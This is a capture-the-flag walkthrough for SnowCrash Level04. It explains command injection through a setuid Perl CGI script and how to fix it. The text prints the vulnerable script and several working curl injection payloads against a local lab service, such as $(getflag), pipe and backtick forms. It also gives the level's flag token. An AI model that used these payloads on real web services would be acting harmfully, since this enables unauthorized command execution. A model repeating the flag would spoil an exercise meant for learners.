 # SnowCrash Level04 Walkthrough

## Overview
Level04 demonstrates a classic web application vulnerability: **command injection** through a Perl CGI script. This level shows how unsanitized user input can lead to arbitrary command execution on the server.

## Initial Investigation

Upon logging into the level04 user, we find a Perl script:

```bash
level04@SnowCrash:~$ ls -la
total 14
dr-xr-x---+ 1 level04 level04   120 Mar  5  2016 .
d--x--x--x  1 root    users     340 Aug 30  2015 ..
-r-x------  1 level04 level04   220 Apr  3  2012 .bash_logout
-r-x------  1 level04 level04  3518 Aug 30  2015 .bashrc
-rwsr-sr-x  1 flag04  level04   152 Mar  5  2016 level04.pl
-r-x------  1 level04 level04   675 Apr  3  2012 .profile
```

### Key Observations
- The `level04.pl` script has **setuid** and **setgid** bits set (`-rwsr-sr-x`)
- It's owned by `flag04` user, meaning it runs with flag04 privileges
- The file is a Perl script (`.pl` extension)

## Script Analysis

Let's examine the contents of the Perl script:

```bash
level04@SnowCrash:~$ cat level04.pl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

### Code Breakdown

1. **Shebang**: `#!/usr/bin/perl` - Specifies this is a Perl script
2. **Comment**: `# localhost:4747` - Indicates the script runs on port 4747
3. **CGI Module**: `use CGI qw{param};` - Imports the CGI module for handling web parameters
4. **HTTP Header**: `print "Content-type: text/html\n\n";` - Outputs HTML content type
5. **Function Definition**: The `x` subroutine takes a parameter and executes it
6. **Vulnerable Code**: `print \`echo $y 2>&1\`;` - Executes shell commands with backticks
7. **Parameter Handling**: `x(param("x"));` - Passes URL parameter "x" to the function

### Vulnerability Analysis

The critical vulnerability lies in this line:
```perl
print `echo $y 2>&1`;
```

This code:
- Uses backticks to execute shell commands
- Directly interpolates user input (`$y`) into the command
- Provides no input sanitization or validation
- Runs with elevated privileges due to the setuid bit

## Confirming the Web Service

The script is designed to run as a web service on port 4747. We can verify this by checking if the service is running:

```bash
level04@SnowCrash:~$ netstat -tlnp | grep 4747
tcp        0      0 127.0.0.1:4747          0.0.0.0:*               LISTEN      -
```

The service is indeed listening on localhost port 4747.

## Exploitation Strategy

The attack vector involves:
1. **Command Injection**: Using command substitution syntax `$(command)` in the URL parameter
2. **Privilege Escalation**: Leveraging the setuid bit to execute commands as flag04
3. **Flag Retrieval**: Executing `getflag` with elevated privileges

### Step 1: Test Basic Command Injection

First, let's verify that command injection works by executing a simple `ls` command:

```bash
level04@SnowCrash:~$ curl 'http://localhost:4747?x=$(ls)'
level04.pl
```

**Success!** The server executed `ls` and returned the directory listing, confirming the command injection vulnerability.

### Step 2: Understanding the Injection Mechanism

The injection works because:
1. Our input `$(ls)` is passed as parameter `x`
2. The script assigns it to variable `$y`
3. The command becomes: `echo $(ls) 2>&1`
4. The shell interprets `$(ls)` as command substitution
5. `ls` executes first, then its output is passed to `echo`

### Step 3: Execute getflag

Now we can execute `getflag` to retrieve the flag:

```bash
level04@SnowCrash:~$ curl 'http://localhost:4747?x=$(getflag)'
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```

## Alternative Injection Methods

Several other command injection techniques would work:

<!-- ### Using Semicolon Separation
```bash
curl 'http://localhost:4747?x=;getflag'
``` -->

### Using Pipe Operators
```bash
curl 'http://localhost:4747?x=|getflag'
```

### Using Backticks
```bash
curl 'http://localhost:4747?x=`getflag`'
```

<!-- ### Using AND Operator
```bash
curl 'http://localhost:4747?x=&&getflag'
``` -->

## Security Implications

This level demonstrates several critical security vulnerabilities:

### 1. **Command Injection**
- Direct execution of user input without sanitization
- Use of dangerous functions like backticks in Perl
- No input validation or filtering

### 2. **Privilege Escalation**
- Setuid binary allowing execution with elevated privileges
- Web service running with unnecessary permissions

### 3. **Poor Input Handling**
- No escaping or sanitization of user input
- Direct interpolation of variables into shell commands

## Mitigation Strategies

To prevent such vulnerabilities:

1. **Input Sanitization**: Always validate and sanitize user input
2. **Avoid Shell Execution**: Use safer alternatives to `system()` or backticks
3. **Principle of Least Privilege**: Don't run web services with elevated permissions
4. **Parameter Validation**: Implement strict parameter validation
5. **Use Safe Functions**: Prefer functions that don't invoke shell interpreters

### Example of Secure Code
```perl
# Instead of: print `echo $y 2>&1`;
# Use: 
if ($y =~ /^[a-zA-Z0-9\s]+$/) {  # Validate input
    print CGI::escapeHTML($y);    # Escape output
}
```

## Web Application Context

This level simulates a common real-world scenario where:
- Web applications accept user input through URL parameters
- Backend scripts process this input without proper validation
- Elevated privileges amplify the impact of vulnerabilities

## Flag
```
ne2searoevaevoem4ov4ar8ap
```

This flag allows access to the next level of the SnowCrash challenge.

## Key Learnings

1. **Command Injection Basics**: Understanding how unsanitized input can lead to code execution
2. **CGI Security**: Common vulnerabilities in CGI scripts and web applications
3. **Privilege Escalation**: How setuid binaries can amplify security vulnerabilities
4. **Input Validation**: The critical importance of sanitizing user input
5. **Shell Metacharacters**: Understanding dangerous characters and command substitution syntax
6. **Web Security**: Basic principles of secure web application development

## Tools and Techniques Used

- **curl**: For making HTTP requests and testing web services
- **netstat**: For checking running services and open ports
- **Command Substitution**: Using `$(command)` syntax for injection
- **File Permissions Analysis**: Understanding setuid and setgid bits